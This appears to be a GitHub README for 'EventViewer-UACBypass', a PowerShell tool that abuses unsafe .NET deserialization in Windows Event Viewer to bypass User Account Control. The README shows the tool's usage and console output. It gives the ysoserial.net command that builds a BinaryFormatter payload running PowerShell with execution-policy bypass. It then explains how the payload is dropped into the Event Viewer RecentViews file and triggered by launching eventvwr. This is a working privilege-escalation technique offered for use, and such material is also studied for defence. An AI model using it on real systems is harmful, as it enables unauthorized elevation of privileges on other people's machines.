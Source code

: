 # EventViewer-UACBypass

- RCE through Unsafe .Net Deserialization in Windows Event Viewer which helps bypass UAC.
- Full credits to [Orange Tsai](https://twitter.com/orange_8361)
---
### Usage
```ps1
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
---
### Working
i) First, the script adds commands to be run to the file `C:\Windows\Tasks\EventViewerRCE.ps1`
- `Stop-Process -name mmc*` : Is used to close Microsoft Management Console.
- After that the command to be executed is added.


ii) Then it crafts payload which runs `C:\Windows\Tasks\EventViewerRCE.ps1` script. The base64 payload was generated using [ysoserial.net](https://github.com/pwntester/ysoserial.net) :
```ps1
ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "powershell.exe -nop -exec bypass C:\Windows\Tasks\EventViewerRCE.ps1"
```
- Decoded base64 payload is stored in `C:\Windows\Tasks\p4yl0ad`

iii) When `WriteFile` function is executed, it checks if the `Event Viewer` folder exists in AppData and it it doesn't then we create the folder. Finally storing our base64 decoded payload in `RecentViews` file under this folder.

iv) In the end, `eventvwr` is executed which then executes our payload.

---

### Reference
- https://twitter.com/orange_8361/status/1518970259868626944
- https://twitter.com/orange_8361
